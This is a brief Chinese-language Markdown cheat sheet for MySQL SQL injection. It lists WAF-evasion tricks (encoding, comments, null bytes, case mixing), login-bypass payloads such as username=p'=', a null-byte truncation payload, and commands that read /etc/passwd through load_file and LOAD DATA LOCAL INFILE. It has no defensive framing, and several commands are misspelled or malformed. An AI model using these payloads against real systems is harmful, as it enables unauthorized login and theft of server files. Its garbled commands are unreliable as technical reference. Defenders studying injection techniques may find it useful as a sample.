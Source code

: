 ## 绕过

https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI

sql 注入绕行 waf:；POST ，cookie 中转,大小写混合，替换关键字，使用编码(16 进制，hex 编码)，使用注释，等价函数和命令，使用特殊符号，http 参数控制，pwn ,select \`version()\` %0A,%20
sel%00ect,%20=>空格,/!\*\*/ => 空格 异常 method，`~ ！+ -`连接符

### 双等号绕过

username=p'='&password=p'='

### 截断

username=a'+0;%00&password=

## 读写文件
user有file_priv权限。
select load file("/etc/passwd/")
LOAD DATA LOCAL INFILE "/etc/passwd" INTO TABLE mytable;
secure_file_priv 为NULL禁止导出，为空无限制 

## 其他
打印log路径：`SHOW VARIBLES LIKE 'general%'`